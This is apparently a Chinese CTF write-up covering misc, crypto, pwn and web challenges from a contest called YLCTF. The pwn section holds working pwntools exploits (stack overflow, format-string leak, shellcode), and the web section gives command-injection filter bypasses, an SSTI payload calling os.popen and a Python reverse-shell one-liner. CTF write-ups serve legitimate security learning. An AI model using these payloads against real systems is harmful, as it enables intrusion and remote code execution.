_**选手：Aura**_

# <font style="color:#4861E0;">M</font><font style="color:#000000;">ISC</font>
## 打卡小能手
<font style="color:#000000;">发送指定消息获得 flag。</font>


## whatmusic
<font style="color:#000000;">拿到一个压缩包，里面两个文件，其中有一个 password 文件没被加密。</font>

<font style="color:#000000;">010 看一下，发现是字节翻转的 PNG，丢入 cyberchef reverse 一下即可。</font>

<font style="color:#000000;">还原出来的 PNG 还需要 CRC 宽高爆破，然后得到密码的图片，还需要水平翻转+旋转处理。</font>

<font style="color:#000000;">解压后得到 flag 文件，里面都是很乱的字节。</font>

<font style="color:#000000;">结合给出的 hint1，以及题目名称，之前羊城杯和 ISCC 有个类似的题，也就是 lyra 解码器，试了一下，用它可以把 flag 文件的内容转成一个 wav 音频，听一下就是 flag。</font>

:::danger
<font style="color:#000000;">Lyra 环境很难配，这里用了 Github 的 Codespace，配起来方便一些。</font>

:::


## hide_png
<font style="color:#000000;">拿到一张图片，上面有一些点阵，适当缩放可以看清一点点。</font>


<font style="color:#000000;">很明显这就是 flag，但是完全看不清，借助一下 stegsolve。</font>


<font style="color:#000000;">有几个字符实在看不清，排列组合稍微试一下就对了。</font>

## pngorzip
<font style="color:#000000;">拿到一张图片，看不出什么东西。</font>

<font style="color:#000000;">丢入 stegsolve，猜一手 LSB 隐写，可以看到有个 PK 头，把这个压缩包提出来。</font>


<font style="color:#000000;">掩码爆破，爆出来密码。</font>



<font style="color:#000000;">解压后打开 txt 就是 flag。</font>

## trafficdet
<font style="color:#000000;">通过 csv 训练模型识别攻击类型，不太会搞这种东西，陪 GPT 玩出来了，然后需要自己微调一下。</font>

<font style="color:#000000;">有几个细节，需要注意测试集 test.csv 没有 Label 列，然后输出的时候注意 id 从 1 开始。</font>

```python
import pandas as pd
from sklearn.ensemble import RandomForestClassifier
from sklearn.preprocessing import LabelEncoder
import joblib

# 1. 加载数据
train_data = pd.read_csv('train.csv')
test_data = pd.read_csv('test.csv')

# 2. 数据预处理
# 查看缺失值
print(train_data.isnull().sum())
print(test_data.isnull().sum())

# 标签编码
label_encoder = LabelEncoder()
train_data['label'] = label_encoder.fit_transform(train_data['Label'])

# 划分特征和标签
X_train = train_data.drop(['label', 'Label'], axis=1)  # 特征
y_train = train_data['label']                             # 标签

# 测试集特征
X_test = test_data.drop(columns=['Label'], errors='ignore')  # 移除目标列（如存在）

# 3. 训练模型
model = RandomForestClassifier(random_state=42)
model.fit(X_train, y_train)

# 4. 进行预测
y_pred = model.predict(X_test)

# 5. 保存预测结果
output = pd.DataFrame({
    'Label': label_encoder.inverse_transform(y_pred)  # 将预测结果转换为原始标签
})

# 生成 id 列，从 1 开始
output['id'] = range(1, len(output) + 1)

# 重新调整列顺序
output = output[['id', 'Label']]

output.to_csv('predictions.csv', index=False)

# 6. 保存模型（可选）
joblib.dump(model, 'trained_model.pkl')

```

## plain_crack
<font style="color:#000000;">拿到一个 build.py 和一个带密码的压缩包，里面也有个 build.py，还有个 flag.docx，根据这些特征，以及题目名称，很明显这就是已知明文攻击。</font>

<font style="color:#000000;">先把 build.py 单独压缩一下，发现压缩包中它的 CRC 值和另一个压缩包中它的 CRC 值一样，可以进行攻击。</font>

<font style="color:#000000;">要爆出来密码是不可能的，我们只需要知道 flag.docx 的内容就好了。</font>


<font style="color:#000000;">调成如上配置，然后开始爆破，差不多 3-4 分钟就出了，然后解压出 flag.docx。</font>



<font style="color:#000000;">直接打不开，改成 zip 后缀解压，在 media 文件夹中发现 flag。</font>


## SinCosTan
<font style="color:#000000;">非常极限，在结束前 3 分钟做出来了。</font>

<font style="color:#000000;">拿到一个怪怪的文件，010 看一下发现是 wav音频。</font>

<font style="color:#000000;">一开始用 Audacity 看了一下，发现有一段音频离奇消失，于是又在 010 里面看了一下。</font>

<font style="color:#000000;">翻了一会，发现藏了 3 个文件，一个 zip，两个 png，分别把他们提出来，都是 hex 的形式。</font>

<font style="color:#000000;">用 cyberchef 转出来，是如下内容。</font>


<font style="color:#000000;">压缩包无密码，解出来有个 txt，看一下。</font>


<font style="color:#000000;">一眼零宽，解一下得到一个应该是 seed 的东西，即 114514。</font>



<font style="color:#000000;">分析这两张图片，大小不一样，但是显示出来一样，可能是盲水印，这里用 BlindWaterMark 跑一下。</font>



<font style="color:#000000;">但是跑出来是一张怪图。</font>


<font style="color:#000000;">应该还有信息没用上，想起来刚才有个 seed，这里直接看工具源码。</font>


<font style="color:#000000;">第 9 行就是 seed，改成刚才的 114514，再跑一次就出 flag 了。</font>


_****_

_****_

<font style="color:#000000;"></font>

# <font style="color:#4861E0;">C</font><font style="color:#000000;">rypto</font>
## signrsa
```python

import libnum
from Crypto.Util.number import *
fp = open("/flag","r")
flag = fp.read()
fp.close()
m = bytes_to_long(bytes(flag.encode()))
n1 = 18674375108313094928585156581138941368570022222190945461284402673204018075354069827186085851309806592398721628845336840532779579197302984987661547245423180760958022898546496524249201679543421158842103496452861932183144343315925106154322066796612415616342291023962127055311307613898583850177922930685155351380500587263611591893137588708003711296496548004793832636078992866149115453883484010146248683416979269684197112659302912316105354447631916609587360103908746719586185593386794532066034112164661723748874045470225129298518385683561122623859924435600673501186244422907402943929464694448652074412105888867178867357727
n2 = 20071978783607427283823783012022286910630968751671103864055982304683197064862908267206049336732205051588820325894943126769930029619538705149178241710069113634567118672515743206769333625177879492557703359178528342489585156713623530654319500738508146831223487732824835005697932704427046675392714922683584376449203594641540794557871881581407228096642417744611261557101573050163285919971711214856243031354845945564837109657494523902296444463748723639109612438012590084771865377795409000586992732971594598355272609789079147061852664472115395344504822644651957496307894998467309347038349470471900776050769578152203349128951
e = 65537
c = pow(m,e,n1)
c = pow(c,e,n2)
print(c)


```

其实就是两次 RSA，n1,n2 都能分出来，直接正常打即可。

```python
import libnum
n1 = 18674375108313094928585156581138941368570022222190945461284402673204018075354069827186085851309806592398721628845336840532779579197302984987661547245423180760958022898546496524249201679543421158842103496452861932183144343315925106154322066796612415616342291023962127055311307613898583850177922930685155351380500587263611591893137588708003711296496548004793832636078992866149115453883484010146248683416979269684197112659302912316105354447631916609587360103908746719586185593386794532066034112164661723748874045470225129298518385683561122623859924435600673501186244422907402943929464694448652074412105888867178867357727
n2 = 20071978783607427283823783012022286910630968751671103864055982304683197064862908267206049336732205051588820325894943126769930029619538705149178241710069113634567118672515743206769333625177879492557703359178528342489585156713623530654319500738508146831223487732824835005697932704427046675392714922683584376449203594641540794557871881581407228096642417744611261557101573050163285919971711214856243031354845945564837109657494523902296444463748723639109612438012590084771865377795409000586992732971594598355272609789079147061852664472115395344504822644651957496307894998467309347038349470471900776050769578152203349128951
e = 65537
p1=122281872221091773923842091258531471948886120336284482555605167683829690073110898673260712865021244633908982705290201598907538975692920305239961645109897081011524485706755794882283892011824006117276162119331970728229108731696164377808170099285659797066904706924125871571157672409051718751812724929680249712137
q1=152715809540018210476585794506755656304018419053948315845024020442944919163424223089911596424947890322440115812073982242024003568582438886041563636295260718520579341235023201649280953992781776747918771204104127874320443126139004728988091615072560392886456699262578469698870106391640100933195833135586571108071
p2=122281872221091773923842091258531471948886120336284482555605167683829690073110898673260712865021244633908982705290201598907538975692920305239961645109897081011524485706755794882283892011824006117276162119331970728229108731696164377808170099285659797066904706924125871571157672409051718751812724929680249712137
q2=164145170653883024647553629463737123010827979171828830103523021501297388761756036648096075592988518245508893542122459154529428778971624332785030551503124716064026198761937539065927958768419405758793987137195172361163960622671936646689220816452043219075732911538605192466301352357559388894114979459113315335423
c = 635502215724372215931456844419152571480462147936723982503459361998618647668072315561987104631739529947533067093973485593859152220243528241512819236636536341840702073778138605205396414952585694028481170235066429345922467807345664346656926018609253142120184327501815294668727941667972416555355858410662105782227415166829071065399605216400913995623236899757078037943704724284689323758126447459094260720114675682302434123763837255474180568756536364397360341200448917341125271498744879653938983320667232081363495628001418168936100331073324991153620042259074769255623065851740103333380201768667181194475176478812466731729
phi2 = (p2-1)*(q2-1)
d2 = libnum.invmod(e,phi2)
c = pow(c,d2,n2)
phi = (p1-1)*(q1-1)
d1 = libnum.invmod(e,phi)
m = pow(c,d1,n1)
print(libnum.n2s(m))
#b'YLCTF{7d170960-18e1-4361-aadf-85a38af0fa23}\n'


```

## BREAK
```python
from Crypto.Util.number import *
from flag import FLAG
import random
from gmpy2 import *
p = getPrime(1024)
q = getPrime(1024)
n = p * q
phi = (p-1) * (q-1)
e = random.randint(55555,66666)
while (GCD(e,phi) != 1):
    e = random.randint(55555,66666)
d = invert(e, phi)
m = bytes_to_long(FLAG.encode())
c = pow(m,e,n)
with open('1.txt','w') as f:
    f.write("c = " + str(c)+"\n")
    f.write("p = " + str(p)+"\n")
    f.write("q = " + str(q)+"\n")


```

e 不知道，但是范围很小，直接爆破，然后走正常 RSA。

```python
import libnum
from tqdm import trange
c = 2924474039245207571198784141495689937992753969132480503242933533024162740004938423057237165017818906240932582715571015311615140080805023083962661783117059081563515779040295926885648843373271315827557447038547354198633841318619550200065416569879422309228789074212184023902170629973366868476512892731022218074481334467704848598178703915477912059538625730030159772883926139645914921352787315268142917830673283253131667111029720811149494108036204927030497411599878456477044315081343437693246136153310194047948564341148092314660072088671342677689405603317615027453036593857501070187347664725660962477605859064071664385456
p = 112201812592436732390795120344111949417282805598314874949132199714697698933980025001138515893011073823715376332558632580563147885418631793000008453933543935617128269371275964779672888059389120797503550397834151733721290859419396400302434404551112484195071653351729447294368676427327217463094723449293599543541
q = 177020901129489152716203177604566447047904210970788458377477238771801463954823395388149502481778049515384638107090852884561335334330598757905074879935774091890632735202395688784335456371467073899458492800214225585277983419966028073512968573622161412555169766112847647015717557828009246475428909355149575012613
n = p * q
phi = (p-1) * (q-1)

for e in trange(55555,66667):
    if libnum.gcd(e,phi)!=1:
        continue
    d = libnum.invmod(e,phi)
    m = pow(c,d,n)
    flag = libnum.n2s(m)
    if b'YLCTF' in flag:
        print(flag)
        break
#80%|████████  | 8944/11112 [01:16<00:18, 116.39it/s]
#b'YLCTF{fbb6186c-6603-11ef-ba80-deb857dc15be}'


```

## r(A)=3
先手玩一下，大概就是给 300 个三元一次方程组，解出来 x,y,z 然后提交。

```plain
function1:
5*x + 2*y + -4*z = -635
1*x + 3*y + -1*z = 258
8*x + 5*y + 1*z = 27
input x=


```

需要使用 pwntools，把系数用正则表达式提取出来，然后用 z3 求解器去解。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
import re
import z3
import string
context.log_level='debug'
io = remote("challenge.yuanloo.com",49483)
pattern = r'-?\d+(?=\*[x,y,z])i'
for i in range(300):
    io.recvuntil(b':\n')
    a = [0,0,0]
    b = [0,0,0]
    c = [0,0,0]
    f = [0,0,0]
    for i in range(3):
        equation = io.recvline().decode()
        print(equation)
        match = re.findall(r'[+-]?\d+', equation)
        print(match)
        if match:
            a[i] = match[0]
            b[i] = match[1]
            c[i] = match[2]
            f[i] = match[3]
        print(a[i])
        print(b[i])
        print(c[i])
        print(f[i])
        print('----------')
    s = z3.Solver()
    x,y,z = z3.Ints('x y z')
    for i in range(3):
        s.add(x*a[i]+y*b[i]+z*c[i]==f[i])
    s.check()
    print(s.model())
    io.sendline(str(s.model()[x]))
    io.sendline(str(s.model()[y]))
    io.sendline(str(s.model()[z]))
io.interactive()


```

## ezrsa
```python

import libnum
from Crypto.Util.number import *
fp = open("/flag","r")
flag = fp.read()
fp.close()
m = libnum.s2n(flag)
p = libnum.generate_prime(512)
q = libnum.generate_prime(512)
e = 65537
n = p * q
h = 20240918
yl = bytes_to_long(b"YLCTF")
hint = pow(h + p * yl, e, n)
c = pow(m, e, n)
print("hint=", hint)
print("n=", n)
print("c=", c)

hint= 6534644468948771801247214888192019389563830150652852829224295651862519287056207691082457644396858861995933207045157702487568371002010847012320648385613218849910756331346422059531645786530279016320097148617461545422180712974204915133698193741667124048275574540863764524005818715469608728780303134846264525
n= 72897772844361484812455950155672860784063188983808256838580326531618149082563349775214077631960991882079772957651260106176774194815536511794769964098839631082481119816830530862785825032610906912971172981856054770316629782039295851841446550911964299028999865330613845697295034702677222109139809852218937844513
c= 14842270733991544060058433292375924392731799362365922515908080194771224028963674017880207875982661409531759104689134776503721722894822504736114038506283246992755596489552151809374433698291743094387053618360127404170819972975690526442298415543272403135421001116273756205626379495301036246380413863236540215120


```


也就是说 `p=gcd(pow(h,e,n)-hint,n)`

```python
import libnum
from Crypto.Util.number import *
h = 20240918
yl = bytes_to_long(b"YLCTF")
e = 65537
hint= 86209219350931172673703461070839725693749813176070953976913813417422866517648950628974769491760985591318397080786295707907976999582744206362001511274616920752861030660408570602874750281303281753975230818347680612069162769595535484636458665791138809690571124799577833378546093090718811428642066459327268329002
n= 90200542688397473947616288942457182284446943842919406993061049979713514670718075371781854294848501192172405082679895157870639555323407500057226653460983166232799997666166906793775613209991095936313533296192221497648492675257617999394559698642885477095688105530141563193959013415606463622924720875646965688013
c= 4741099192560508670954802686083416391036616590809245405331743126913221076758220820303993990875542089565013500138808577801351260090032217764373253029045265936952277554284105055084635952084081923326186760096589749102547382415504026331002897353113815988275297287178728867759840474626944107357424089652273724246
p = libnum.gcd(pow(h,e,n)-hint,n)
q = n//p
phi = (p-1)*(q-1)
d = libnum.invmod(e,phi)
m = pow(c,d,n)
print(libnum.n2s(m))
#b'YLCTF{8c5666d8-4465-43b0-aa36-b070a139baa9}\n'


```

## threecry
```python

from Crypto.Util.number import *
import sympy
fp = open("/flag","r")
flag = fp.read()
fp.close()
a=getPrime(512)
p=sympy.nextprime(13*a)
q=sympy.prevprime(25*a)
number2=p*q

def crypto01(number1, number2, number3):
    number4 = 1
    while number2 > 0:
        if number2 % 2:
            number4 = (number4 * number1) % number3
        number1 = number1 ** 2 % number3
        number2 //= 2
    return number4

def crypto02(number1, number2):
    number3 = number1
    number4 = number2
    giao = 1
    giaogiao = 0
    while number4 > 0:
        number7 = number3 // number4
        giao, giaogiao = giaogiao, giao - giaogiao*number7
        number3, number4 = number4, number3 - number4*number7
    while giao<0:
        giao = giao + number2
    return giao

def crypto03(number1, number2, number3):
    number4 = crypto01(number3, number1, number2)
    return number4

def crypto05(number1,number2):
    return pow(number1,0xe18e,number2)


number1 = 6035830951309638186877554194461701691293718312181839424149825035972373443231514869488117139554688905904333169357086297500189578624512573983935412622898726797379658795547168254487169419193859102095920229216279737921183786260128443133977458414094572688077140538467216150378641116223616640713960883880973572260683
number2 = 20163906788220322201451577848491140709934459544530540491496316478863216041602438391240885798072944983762763612154204258364582429930908603435291338810293235475910630277814171079127000082991765275778402968190793371421104016122994314171387648385459262396767639666659583363742368765758097301899441819527512879933947
number3 = int.from_bytes(flag[0:19].encode("utf-8"), "big")
number4 = int.from_bytes(flag[19:].encode("utf-8"), "big")
print(number2)
print(crypto03(number1, number2, number3))
print(crypto05(number4,number2))

number2= 20163906788220322201451577848491140709934459544530540491496316478863216041602438391240885798072944983762763612154204258364582429930908603435291338810293235475910630277814171079127000082991765275778402968190793371421104016122994314171387648385459262396767639666659583363742368765758097301899441819527512879933947
crypto03= 19314672557142329600978979180148216066727150421428158927781981400364673930760934134552604813832526320840697972014826482411548284799416147221841666539702679999594418822248453084629783493095648387349041046624593477120815889826162461374545498612669379038335173574991876218284827023677859258012940244631526369124879
crypto05= 2541148112550118662523688907635260067492267801609157520600811898236258675196425539375613496139996682759981168884546377157301550252364767834296971661585667409820558783914877346494232707603877930223232832490265908778046111181187512283712689452054193477663802077383135861165906658503532007145623127302680574496540


```

很长很乱，先耐心分析一下。

发现 crypto01 其实就是个快速幂，也就是和 pow 函数等价的。

crypto02 函数根本没用到，直接忽略。

其实就是把 flag 分成两块加密，都是正常的 RSA，就是 number2。

可以近似成 ，也就是 和 很接近。

左右移动一下，就能得到正确的 和 。

然后就是解正常的 RSA，第一部分能直接解出来，第二部分是一个 ，不互素，跑个板子就行。

```python
import sympy
import libnum
number1 = 6035830951309638186877554194461701691293718312181839424149825035972373443231514869488117139554688905904333169357086297500189578624512573983935412622898726797379658795547168254487169419193859102095920229216279737921183786260128443133977458414094572688077140538467216150378641116223616640713960883880973572260683
number2 = 20163906788220322201451577848491140709934459544530540491496316478863216041602438391240885798072944983762763612154204258364582429930908603435291338810293235475910630277814171079127000082991765275778402968190793371421104016122994314171387648385459262396767639666659583363742368765758097301899441819527512879933947
crypto03= 19314672557142329600978979180148216066727150421428158927781981400364673930760934134552604813832526320840697972014826482411548284799416147221841666539702679999594418822248453084629783493095648387349041046624593477120815889826162461374545498612669379038335173574991876218284827023677859258012940244631526369124879
crypto05= 2541148112550118662523688907635260067492267801609157520600811898236258675196425539375613496139996682759981168884546377157301550252364767834296971661585667409820558783914877346494232707603877930223232832490265908778046111181187512283712689452054193477663802077383135861165906658503532007145623127302680574496540
afang = number2//325
a = libnum.nroot(afang,2)
a = sympy.prevprime(a)
p=sympy.nextprime(13*a)
q=sympy.prevprime(25*a)
assert p*q==number2
phi = (p-1)*(q-1)
d = libnum.invmod(number1,phi)
m1 = pow(crypto03,d,number2)
#print(libnum.n2s(m1))
e = 0xe18e
t = libnum.gcd(e,phi)
print(t)
e1 = e//t
d = libnum.invmod(e1,phi)
mt = pow(crypto05,d,number2)
m2 = libnum.nroot(mt,2)
print(libnum.n2s(m1)+libnum.n2s(m2))
#2
#b'YLCTF{4f734dea-2b1c-4079-8f09-4ff9882cf612}\n'


```

# <font style="color:#4861E0;">P</font><font style="color:#000000;">wn</font>
## ezstack


stack 函数中存在栈溢出漏洞。

有个 vuln 函数，里面可以执行命令，但是过滤了一些字符。


我们可以通过 `/???/?at` 代替 cat，然后用通配符读出根目录下所有文件，即 `/???/?at *`

总体思路就是栈溢出然后跳到 vuln 函数，执行命令，很简单。



```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
p = remote("challenge.yuanloo.com",39503)
p.recvuntil(b"good stack")
backdoor = 0x401275
ret = 0x401352
payload = b'a'*48 + b'b'*8 + p64(ret) + p64(backdoor)
p.sendline(payload)
p.interactive()


```

## giaopwn


vuln 函数中存在栈溢出漏洞。


有个后面函数 backdoor，但是 system 的参数不对，去字符串里面找一下。



在 data 段里面找到一个 cat flag。

接下来就是简单的 ret2text。


```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
p = remote("challenge.yuanloo.com",44132)
sys = 0x4006D2
sh = 0x601048
ret = 0x4006C5
rdi = 0x400743
payload = b'a'*32 + b'b'*8 + p64(rdi) + p64(sh) + p64(sys)
p.sendline(payload)
p.interactive()


```

## ezorw
禁用常规orw后，可以用openat，mmap，sendfile实现相同功能。



```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
p = remote('challenge.yuanloo.com',37286)
p.recvuntil(b"welcome to YLCTF orw~\n")
shellcode=shellcraft.openat(0,'/flag',0)
shellcode+=shellcraft.mmap(0x10000,0x100,1,1,'eax',0)
shellcode+=shellcraft.sendfile(1,3,0,0x100)
sh=asm(shellcode)
print(sh)
p.sendline(sh)
p.recv()
p.interactive()


```

## ezfmt
题目给了 libc。



有个格式化字符串漏洞，用它泄露 libc 地址后，直接栈迁移到 bss 执行 onegadget。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
binary = "./ezfmt"
elf = ELF(binary)
p = remote('challenge.yuanloo.com',31426)
func = 0x401214
pop_rdi = 0x4012b3
leave_ret = 0x401241
p.sendafter(b"YLCTF", (b"%13$p").ljust(0x20, b'\x00')+p64(elf.bss(0x508))+p64(func))
p.recvuntil(b"0x")
libc_address = int(p.recv(12), 16) - 0x24083
one = libc_address + 0xe3b01
pay = p64(elf.bss(0x508)-0x20) + p64(one) + p64(0)*2 + p64(elf.bss(0x508)-0x20) + p64(leave_ret)
p.send(pay)
p.interactive()


```

## canary_orw
题目给了提示，jmp rsp，并且 NX 保护没关，栈可执行，可以用 13 字节构造一次 write 泄露 canary，然后在栈上写 orw 的 shellcode 就可以了。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
p = remote("challenge.yuanloo.com",42481)
binary = './canary'
elf = ELF(binary)
mmap = elf.bss()+0x500
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)
orw=asm(orw)
jmp_rsp = 0x40081B
p.recvuntil(b"Say some old spells to start the journey\n")
shellcode = b"\x66\x83\xee\x10\x0f\x05\xb8\x20\x08\x40\x00\xff\xe0"
pay = p64(jmp_rsp) + shellcode
p.send(pay)
canary = u64(p.recvuntil(b"\x00\x00")[-10:-2])
print(hex(canary))
p.recvuntil(b"me the location of the Eye of the Deep Sea\n")
p.send(b'a'*0x8+p64(mmap))
p.recvuntil(b"I have magic\n")
p.send(b'/flag'.ljust(8,b'a'))
p.recvuntil(b"Let's go!\n")
pause()
shellcode = asm(
    '''
    sub rsp,0x100
    '''
)
pay = b'b'*0x10 + p64(canary)*3 + p64(jmp_rsp) + shellcode + orw
p.sendline(pay)
p.interactive()


```

# <font style="color:#4861E0;">W</font><font style="color:#000000;">eb</font>
## Disal


空，F12 看一下源码，找到这个东西。



访问一下，看到一张机器人图片。


猜测是 robots.txt，访问一下。


继续访问 f1ag.php。

```php
<?php
show_source(__FILE__);
include("flag_is_so_beautiful.php");
$a=@$_POST['a'];
$key=@preg_match('/[a-zA-Z]{6}/',$a);
$b=@$_REQUEST['b'];

if($a>999999 and $key){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
?>


```

有两层，变量 a 需要大于 999999，并且有 6 个连续的字母。

变量 b 需要大于 1234，并且需要 is_numeric($b) 返回 false。

常规内容，变量 a 直接构造 99999999aaaaaa，变量 b 构造 9999a 即可。


## shxpl


其实就是类似 ping 的一个东西，也是命令注入。

过滤了很多东西，这里只能使用 && 进行连接。

ls 被过滤了，只能用 dir。

空格也被过滤了，$ 也被过滤了，这里可以用 %09。


找到 flag，此时可以去看一下 index.php，里面有黑名单。

cat 被过滤了，可以用 more 看。



flag，通配符都被 ban 了，但还可以使用 [f] 进行绕过。


## Injct
老朋友了，一眼 SSTI，这里直接上 fenjing 跑。

```python
{%if(((((cycler.next|attr(('%c'%95)*2+'globals'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2))(('%c'%95)*2+'builtins'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2))(('%c'%95)*2+'i''mport'+('%c'%95)*2))('os')|attr('p''open'))('\\163\\154\\145\\145\\160\\40\\63').read())%}


```

发现跑出来的是无回显，而且用不了，sleep 3 没反应，可能是因为 \\ 转义的问题，那就本地起一个服务，先把黑名单试出来，然后额外把 \\ 过滤掉。

跑出来还用不了，那就再换一个，再额外过滤一个加号。

再 sleep 3，发现有反应了，可以弹个 shell 试试。

由于是 python 环境，那就直接用 python 弹shell。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```

```python
{%if(((((cycler.next|attr(('%c'%95)*2~'globals'~('%c'%95)*2)|attr(('%c'%95)*2~'getitem'~('%c'%95)*2))(('%c'%95)*2~'builtins'~('%c'%95)*2)|attr(('%c'%95)*2~'getitem'~('%c'%95)*2))(('%c'%95)*2~'i''mport'~('%c'%95)*2))('os')|attr('p''open'))(('%c'*228)%(敏感内容！上面的指令转成ASCII码，用逗号隔开)).read())%}


```

监听 7777 端口，发送 payload，成功弹到。


## TOXEC


文件上传，先访问一下不存在的页面，发现 Tomcat，应该是 servlet，考虑传 jsp 马。

